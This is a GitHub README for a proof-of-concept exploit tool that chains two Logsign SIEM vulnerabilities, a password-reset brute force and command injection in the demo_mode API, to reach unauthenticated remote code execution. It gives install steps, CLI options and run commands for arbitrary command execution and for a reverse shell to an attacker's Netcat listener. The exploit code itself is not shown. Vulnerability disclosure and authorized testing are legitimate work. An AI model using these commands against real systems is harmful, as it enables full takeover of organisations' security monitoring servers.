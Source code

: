 # Logsign SIEM RCE Exploit (CVE-2024-5716 & CVE-2024-5717)

This tool is a proof-of-concept (PoC) exploit that combines two critical vulnerabilities in the Logsign Unified SecOps Platform (SIEM) to achieve unauthenticated remote code execution (RCE).

## Description

The exploit chains two vulnerabilities:

**CVE-2024-5716 (Authentication Bypass):**  
A flaw in the password reset mechanism allows the 6-digit reset code to be brute-forced without rate limiting. This script uses multi-threading to quickly identify the reset code and reset the admin user's password.

**CVE-2024-5717 (Command Injection):**  
Once logged in as an admin user, the `/api/settings/demo_mode` API endpoint fails to properly validate user input, allowing arbitrary command injection and execution on the target system.

By combining these vulnerabilities, an attacker can gain full control over the target system.

## Features

- Automatically chains CVE-2024-5716 and CVE-2024-5717.
- Resets the admin user's password to gain system access.
- Supports three modes for remote code execution (RCE):
  - **Default PoC**: Executes `id > /tmp/logsign_pwned.txt` on the target system.
  - **Single Command Execution**: Runs a user-specified command.
  - **Reverse Shell**: Establishes an interactive shell session to a specified IP and port.
- Detailed logging for debugging with `--debug` mode.

## Installation and Requirements

**Clone the project files:**

```
git clone https://github.com/sevbandonmez/logsign-rce.git
cd logsign-rce
```

## Install the required Python library

```pip install requests```


## Usage
The script can be executed with various command-line arguments.

```
usage: exploit.py [-h] -t TARGET [-rh REVERSE_HOST] [-rp REVERSE_PORT] [-c COMMAND] [-d]

Logsign RCE Exploit Tool

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (e.g., https://example.com:8443)
  -rh REVERSE_HOST, --reverse-host REVERSE_HOST
                        Reverse shell IP address
  -rp REVERSE_PORT, --reverse-port REVERSE_PORT
                        Reverse shell port
  -c COMMAND, --command COMMAND
                        Custom command to execute
  -d, --debug           Enable debug logging
```

### Example 1: Default PoC
This mode creates a file /tmp/logsign_pwned.txt on the target system to prove the vulnerability.

```python3 exploit.py -t https://192.168.1.100```

Check the file on the target system: cat /tmp/logsign_pwned.txt.
### Example 2: Single Command ExecutionRun a single command, such as whoami, on the target system:

```python3 exploit.py -t https://192.168.1.100 -c "whoami"```

### Example 3: Reverse Shell
This mode provides an interactive command-line shell on the target system.

**Step 1:* Start a listener on the attacker's machine using Netcat:**

```nc -lvnp 4444```

**Step 2:* Run the exploit, specifying your IP address and port:**

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444```

If successful, a shell session will appear in your Netcat listener.

## Debugging
If the script fails or produces unexpected errors, enable detailed logging with the --debug flag:

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444 --debug```

## Special Thanks
Endless thanks to **@mdisec** for the identified CVE vulnerabilities <3. 

## Legal Disclaimer
This tool is developed solely for authorized security testing and educational purposes. Unauthorized use of this tool for illegal activities is strictly prohibited. Any damage or legal consequences resulting from the use of this tool are the sole responsibility of the user. The developer is not liable for any misuse of this tool.

## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
[Writeup old version](https://medium.com/@sevbandonmez/zero-day-review-critical-vulnerabilities-in-logsign-unified-secops-platform-versions-6-4-7-69bbec653b3a)
